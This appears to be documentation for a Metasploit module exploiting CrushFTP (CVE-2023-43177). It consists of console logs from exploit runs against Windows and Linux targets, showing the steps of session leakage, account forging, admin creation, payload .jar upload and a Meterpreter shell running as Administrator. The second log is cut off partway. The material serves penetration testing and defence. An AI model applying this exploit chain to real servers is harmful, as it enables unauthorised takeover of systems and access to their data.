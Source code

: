 ```
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx`
[*] Found the egg at FILE://C:/CrushFTP10/home/readonly/writable1/4daf4b7923 in the session file
[+] Found path `C:/CrushFTP10/home/readonly/writable1/` and it is Windows
[+] Found the file system path: C:/CrushFTP10/home/readonly/writable1/
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD
[*] The forged user will be `4a5b85eeb9`
[*] Moving user.XML from C:/CrushFTP10/home/readonly/writable1/ to `4a5b85eeb9` home folder and elevate privileges
[*] Logging out session cookie `1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD`
[*] Logging into the elevated account
[*] [do_login] Logging in with username `4a5b85eeb9` and password `9adccf3732`
[+] Logged in! Now let's create a temporary admin account
[*] Logging out session cookie `1711130433073_bRLLcJRdeSHJTIEcRAOpMKzMYL0zLa`
[+] Administrator account created: username=ec71181f81, password=63524a9c6c
[*] [do_login] Logging in with username `ec71181f81` and password `63524a9c6c`
[*] Uploading payload .jar file `ea2c.jar` to C:/Users/Public/ea2c.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted C:/CrushFTP10/home/readonly/writable1/4daf4b7923
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js
[*] Meterpreter session 12 opened (10.4.227.33:61332 -> 192.168.101.54:4444) at 2024-03-22 19:00:49 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/ea2c.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Linux

#### With an active administrator session
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8`
[*] Looking for the valid sessions
```